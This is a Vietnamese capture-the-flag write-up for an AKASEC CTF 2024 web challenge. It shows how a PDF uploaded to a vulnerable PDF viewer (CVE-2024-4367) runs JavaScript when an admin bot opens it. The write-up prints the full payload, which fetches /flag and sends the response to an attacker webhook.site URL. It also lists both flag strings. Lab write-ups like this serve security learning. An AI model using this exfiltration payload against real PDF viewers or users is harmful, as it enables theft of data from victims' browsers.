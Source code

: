 # Đề bài:
![Screenshot (571)](https://github.com/anhshidou/akasecctf-2024/assets/152991010/77f64003-6ff5-4e22-be22-4a6ebe671dfb)

# Hướng làm: 
- Flag sẽ nằm ở path /flag, và chỉ có localhost mới có thể truy cập đến /flag để lấy flag
- Web là 1 ứng dụng upload file pdf, sau đó ta có thể xem pdf đã upload lên bằng /views/ hoặc /uploads/
- Có 1 con bot sẽ truy cập vào url đó rồi trả lại kết quả, và chỉ con bot có thể truy cập được vào flag
- Vậy nên em nảy ra ý tưởng là làm sao để con bot khi ấn vào url sẽ tự động truy cập vào /flag và gửi response về cho 
- Với dữ liệu trên, ý tưởng của bài sẽ là pdf upload to xss để lấy flag

# Tài liệu:
- https://portswigger.net/research/portable-data-exfiltration
- https://github.com/LOURC0D3/CVE-2024-4367-PoC/tree/main (tool sẽ sử dụng trong bài với cái tên bad_pdf.py)

# Exploit:
- Trước hết ta cần đăng nhập trang web

![Screenshot (572)](https://github.com/anhshidou/akasecctf-2024/assets/152991010/1f4e87c2-c397-4799-88da-63c71eff5a75)

- Sau khi login xong ta sẽ có giao diện uploads

![Screenshot (573)](https://github.com/anhshidou/akasecctf-2024/assets/152991010/39596800-c6fa-49aa-ad4d-1a63fb6a6d47)

- Tiếp theo, sử dụng tool để tạo pdf với payload:
 ```
    fetch('/flag')
    .then(response => response.json())
    .then(data => {
        const webhookURL = 'https://webhook.site/d4ac635e-b668-41e5-b82b-1bcbf0bfbfd5';
        return fetch(webhookURL, {
            method: 'POST',
            mode: 'no-cors', 
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify(data)
        });
    })
    .then(() => {
        console.log('Request sent to webhook successfully');
    })
    .catch(error => {
        console.error('Error:', error);
    });
```
- Tạo pdf:

![Screenshot (574)](https://github.com/anhshidou/akasecctf-2024/assets/152991010/a1c0436a-8c07-41cc-bd66-d54efe36e9ab)

- Xong đó ta upload lên và ở webhook, ta nhận được response như sau:

![Screenshot (559)](https://github.com/anhshidou/akasecctf-2024/assets/152991010/bcb2290a-51c6-46ac-8500-c8064c527140)

- Nó chính xác là những gì xảy ra nếu ta truy cập vào /flag:

![Screenshot (575)](https://github.com/anhshidou/akasecctf-2024/assets/152991010/043db81c-feb6-41f1-8230-d2c3747f2d24)

- Tiếp theo, ta cóp link dính xss để gửi cho con bot:

![Screenshot (577)](https://github.com/anhshidou/akasecctf-2024/assets/152991010/4218730e-07b8-4057-a57c-e81334f3904f)

- Và ta nhận được flag:

![Screenshot (562)](https://github.com/anhshidou/akasecctf-2024/assets/152991010/952a7233-9adc-4f17-bdb2-b1b95a836059)

# Flag:
- Có vẻ như do có team đã cheat nên flag của tất cả các bài bị đổi lại
- Flag trước khi đổi: AKASEC{PDF_1s_4w3s0m3_W1th_XSS_&&_Fr33_P4le5T1n3}
- Flag sau khi đổi: AKASEC{PDF_1s_4w3s0m3_W1th_XSS_&&_Fr33_P4le5T1n3_r0t4t333d_loooool}

